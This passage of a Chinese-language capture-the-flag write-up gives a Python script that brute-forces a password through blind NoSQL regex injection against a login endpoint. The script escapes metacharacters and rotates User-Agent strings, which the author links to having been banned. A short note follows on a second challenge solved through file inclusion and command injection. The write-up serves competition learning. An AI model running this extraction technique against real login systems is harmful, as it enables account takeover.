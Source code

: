 ```python=
s.mount('https://', adapter)

user_agent_list = ["Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36",
                    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36",
                    "Mozilla/5.0 (Windows NT 10.0; WOW64) Gecko/20100101 Firefox/61.0",
                    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
                    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.62 Safari/537.36",
                    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36",
                    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0)",
                    "Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10.5; en-US; rv:1.9.2.15) Gecko/20110303 Firefox/3.6.15",
                    ]

while True:
    for c in string.printable:
        if c in ['*','+','.','?','|','(', ')', '[', ']', '\\']:
            c = '\\' + c

        print(c)

        try:
            r = s.post(url, headers={
                'Connection': 'close',
                'User-Agent': random.choice(user_agent_list)
            }, data={
                "username[$eq]": username,
                "password[$regex]": "^" + password + c
            }, verify=False)
        except:
            continue

        print(r.text)
        if 'Success' in r.text:
            print("Found one more char : %s" % (password+c))
            password += c
            if c == '}':
                exit()
```

* 是說扣可以不用那麼麻煩，因為我以為是我弄太快才把我 ban 掉，其實是沒有考慮到那些特殊意義的字元的問題

### TariTari

> 456
> easy

* 這一題考 LFI 之後是 command injection，滿直覺的
* 不過在 command injection 那邊卡了一下，本來想的有點太複雜了，後來發現可以直接回顯
